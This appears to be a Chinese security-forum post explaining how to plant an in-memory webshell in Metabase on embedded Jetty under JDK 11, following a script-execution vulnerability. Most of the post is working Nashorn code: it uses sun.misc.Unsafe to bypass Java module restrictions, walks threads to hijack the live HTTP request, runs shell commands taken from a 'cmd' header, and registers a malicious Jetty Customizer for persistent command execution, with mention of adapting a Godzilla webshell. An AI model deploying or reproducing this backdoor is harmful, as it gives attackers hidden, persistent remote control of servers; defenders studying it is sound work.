# Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现 - 先知社区

Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现

- - -

# 前言

之前在 Metabase 漏洞中实现了任意 js 脚本的执行，但是这并不优雅 每次都要发送完整的请求包。 
而且 Metabase 的部署方法比较特殊 它打包成了一个独立 jar 来运行。这意味着不能通过简单的写文件的方法来获得较为持久化的 webshell.  
那么如何实现一个内存马呢？

# 回显马构造

目标环境是 java 11.0.19+7 中间件是 Jetty 11.0.14  
sink 点是 nashorn js 引擎 下面例子都是 js nashorn 代码的实现  
因为 js 引擎没有传入 http 请求的上下文 所以只能通过遍历线程的方法来获取上下文。

```plain
var threadGroup = java.lang.Thread.currentThread().getThreadGroup();
var field = ThreadGroup.class.getDeclaredField("threads");
field.setAccessible(true);
```

发现 setAccessible 执行的时候抛出了异常

```plain
Caused by: java.lang.reflect.InaccessibleObjectException: 
Unable to make field java.lang.Thread[] java.lang.ThreadGroup.threads accessible:
module java.base does not "opens java.lang" to module jdk.scripting.nashorn.scripts
```

Java 9 及其以上的版本中 模块化系统 (module system) 被引入。模块化系统增加了对模块的隔离和访问控制，强制要求模块显式地声明对其他模块的公开与开放。  
因为这个新增的安全特性。所以不能像在低版本 java 一样简单的通过反射的方法来访问私有属性。 
但是仍然可以使用 unsafe 来强制访问私有属性绕过这个限制。 
sun.misc.Unsafe 是 JDK 原生提供的一个工具类，包含了危险的方法例如内存分配与回收、CAS 操作、类实例化、内存屏障等。正如其命名一样，由于其可以直接操作内存，执行底层系统调用，其提供的操作也是比较危险的。

```plain
function getunsafe() {
  var unsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  unsafe.setAccessible(true);
  return unsafe.get(null);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8f6dedcc-3e65-1.png) 这里使用到其中了两个方法

```plain
//基于相对内存地址直接读取属性 不受所有修饰符限制
public Object getObject(Object o, long offset)
//获取非静态属性在它的类的内存分配中的位置 (内存偏移地址)
public long objectFieldOffset(Field f)
```

拿到 unsafe 之后就可以获取之前获取不到的 threads 了

```plain
var unsafe = getunsafe();
var group = java.lang.Thread.currentThread().getThreadGroup();
var f = group.getClass().getDeclaredField("threads");
var threads = unsafe.getObject(group, unsafe.objectFieldOffset(f));
```

通过调试找到 http 上下文 \_request 的位置  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8fbc2046-3e65-1.png)[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155402-901e80a6-3e65-1.png)  
((HttpChannelOverHttp)((HttpConnection)((Thread)this).threadLocals.table\[x\].value).\_channel).\_request  
不难发现\_request \_response 可以通过如下方式获取  
((HttpConnection)((Thread)this).threadLocals.table\[x\].value).getHttpChannel().getResponse()  
遍历 threads 找到 threadLocals->table->value 调用其中的 getHttpChannel 方法 就可以拿到我们需要的东西

```plain
for (var i = 0; i < threads.length; i++) {
    try {
        var f = threads[i].getClass().getDeclaredField("threadLocals");
        var threadLocals = unsafe.getObject(threads[i], unsafe.objectFieldOffset(f));
        var table = unsafe.getObject(threadLocals, unsafe.objectFieldOffset(threadLocals.getClass().getDeclaredField("table")));
        for (var j = 0; j < table.length; j++) {
            try {
                var valueField = unsafe.getObject(table[j], unsafe.objectFieldOffset(table[j].getClass().getDeclaredField("value")));
                var w = valueField.getHttpChannel().getResponse().getWriter();
                w.println(exec(valueField.getHttpChannel().getRequest().getHeader("cmd")));
                w.flush();
            } catch(e) {

}
        }
    } catch(e) {

}
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90804e08-3e65-1.png)  
到这里我们实现了一个回显马

# 内存马构造

那么如何实现一个内存马呢？ 
跟踪代码堆栈 发现在分发 http 请求的时候有这么一段代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90e27308-3e65-1.png)

```plain
public boolean handle() {
......
this.dispatch(DispatcherType.REQUEST, () -> {
Iterator var1 = this._configuration.getCustomizers().iterator();
  do {
if (!var1.hasNext()) {
  this.getServer().handle(this);
return;
 }
      HttpConfiguration.Customizer customizer = (HttpConfiguration.Customizer)var1.next();
      customizer.customize(this.getConnector(), this._configuration, this._request);
  } 
    while(!this._request.isHandled());
});
......
```

jetty 有一类叫做 customizer 的 handler 看起来和 tomcat 的 Valve 类似

> HttpConfiguration.Customizer  
> 允许自定义请求对象的接口 对于特定的 HTTP 连接器配置。与过滤器不同，定制器是在提交请求进行处理之前应用，并且可以特定于接收请求的连接器。  
> 通常 customizer 执行以下任务：
> 
> -   处理可能由代理或负载均衡器注入的标头字段。
> -   可能来自连接/连接器的设置属性，例如 SSL 会话 ID
> -   如果请求已被卸载，则允许将请求标记为安全或经过身份验证 并通过 header、cookie 或其他带外机制进行通信
> -   设置由连接器确定的请求属性/字段请求已收到

实现一个 Customizer

```plain
var ProxyCustomizer = Java.extend(org.eclipse.jetty.server.HttpConfiguration.Customizer, {
    customize: function(connector, channelConfig, request) {
        if (request.getHeader("cmd1") != null) {
            request.getResponse().getWriter().println(exec(request.getHeader("cmd1")));
            request.setHandled(true);
        }
    }
});
```

将自定义恶意 Customizer 添加到 Configuration 中

```plain
valueField.getHttpChannel().getHttpConfiguration().addCustomizer(new ProxyCustomizer());
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155404-91353a5c-3e65-1.png) 现在已经实现了一个简单的 java 内存马  
之后照猫画虎 魔改一下哥斯拉的马 稍微封装一下 这里留给读者自己动手实现 最后用 unsafe 绕过限制 加载 class  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91968b72-3e65-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91d495a2-3e65-1.png)  
成功实现哥斯拉内存马  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-92259d08-3e65-1.png)[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-925fc15e-3e65-1.png)[](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-92a665a0-3e65-1.png)
